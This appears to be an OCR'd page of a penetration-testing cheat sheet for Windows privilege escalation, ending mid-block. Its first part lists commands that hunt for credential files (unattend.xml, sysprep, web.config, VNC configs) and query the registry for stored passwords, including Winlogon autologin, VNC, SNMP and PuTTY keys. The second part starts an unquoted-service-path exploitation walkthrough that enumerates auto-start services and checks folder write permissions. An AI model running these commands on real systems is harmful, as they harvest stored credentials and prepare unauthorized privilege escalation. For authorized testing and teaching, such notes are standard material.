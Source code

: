 dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini  

### VNC  
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

### SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  










################################################################################################################################################

#### Unquoted Service Path Exploitation

```bash

## Case 1, SeShutdownPrivilege is listed when checked whoami /priv # doesn't matter even if it shows Disabled

# Search for services that auto start:
wmic service get name,displayname,pathname,startmode | findstr /i "auto"
# Search for non-standard services
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows"
# Potential unquoted service output example
Heisenburg Service   heisenburgsvc     "C:\Program Files\Heisenburg\The One Who\knocks.exe"        auto

# next check if W or F permission exists for BUILTIN\Users or Everyone on one of the sub directory
icacls "C:\\"                         # or: .\accesschk.exe /accepteula -uwdq C:\
icacls "C:\Program Files"             # or: .\accesschk.exe /accepteula -uwdq "C:\Program Files"
icacls "C:\Program Files\Heisenburg"  # or  .\accesschk.exe /accepteula -uwdq "C:\Program Files\Heisenburg"

# Example output if (builtin\users or EVERYONE) has ( (I) or (F) ) on "C:\Program Files\Heisenburg":
#                  BUILTIN\Users:(F)
#                  BUILTIN\Users:(I)(RX) 
# Example output for accesschk.exe:
```